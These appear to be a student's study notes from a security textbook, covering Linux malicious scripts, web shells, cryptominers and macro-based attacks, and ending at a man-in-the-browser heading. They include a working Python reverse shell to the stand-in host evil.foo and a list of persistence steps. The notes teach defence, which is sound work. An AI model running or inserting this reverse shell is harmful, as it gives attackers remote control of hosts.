 A [[malicious script]] running on a Linux host might attempt the following:

1.  Use commands such as whoami and ifconfig/ip/route to establish the local context.
2.  Download tools, possibly using wget or curl.
3.  Add crontab entries to enable persistence.
4.  Add a user to sudo and enable remote access via SSH.
5.  Change firewall rules using iptables.
6.  Use tools such as Nmap to scan for other hosts.

A very common vector for attacking Linux hosts is to use an exploit to install a web shell as a backdoor ([acunetix.com/blog/articles/introduction-web-shells-part-1](https://www.acunetix.com/blog/articles/introduction-web-shells-part-1/)). Typical code to implement a reverse shell (connecting out to the machine at evil.foo on port 4444) is as follows:

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)

s.connect(("evil.foo",4444))

os.dup2(s.fileno(),0)

os.dup2(s.fileno(),1)

os.dup2(s.fileno(),2)

pty.spawn("/bin/sh")'

The os.dup2 statements redirect the **terminal's data streams stdin (0), stdout (1), and stderr (2) to the socket object (s).** The pty module provides a library of functions for managing a pseudo-terminal, in this case starting the shell process at /bin/sh.

The code to implement a shell can be obfuscated in numerous ways. One way to identify malicious scripts trying to match code samples is to scan the file system against a **configuration baseline,** either using file integrity monitoring or use of the Linux diff command. 

A common exploit for a vulnerable web server is to upload a cryptominer, misusing the server's CPU resources to try to obtain new cryptocurrency. You can use Linux utilities such as top and free to diagnose excessive CPU and memory resource consumption by such malware.

This F5 white paper describes the use of Bash and Python attack tools ([f5.com/labs/articles/threat-intelligence/attackers-use-new--sophisticated-ways-to-install-cryptominers](https://www.f5.com/labs/articles/threat-intelligence/attackers-use-new--sophisticated-ways-to-install-cryptominers)).
# MACROS AND VISUAL BASIC FOR APPLICATIONS (VBA)

A **document macro is a sequence of actions performed in the context of a word processor, spreadsheet, or presentation file.** While the user may be able to record macro steps using the GUI, ultimately macros are coded in a scripting language. Microsoft Office uses the Visual Basic for Applications (VBA) language, while PDF documents use JavaScript. Microsoft Office document macros can be inspected using ALT+F11. **Other vendors and open-source software also implement macro functionality, using languages such as Basic or Python.**

A malicious actor will try to use a macro-enabled document to execute arbitrary code. For example, a Word document could be the vector for executing a malicious PowerShell script. Macros are disabled by default in Office, but the attacker may be able to use a [[Social engineering]] attack to get the user to change the policy.

With PDF, the JavaScript might be embedded within the document and designed to exploit a known vulnerability in the reader software to execute without authorization ([sentinelone.com/blog/malicious-pdfs-revealing-techniques-behind-attacks](https://www.sentinelone.com/blog/malicious-pdfs-revealing-techniques-behind-attacks/)).
# MAN-IN-THE-BROWSER ATTACK
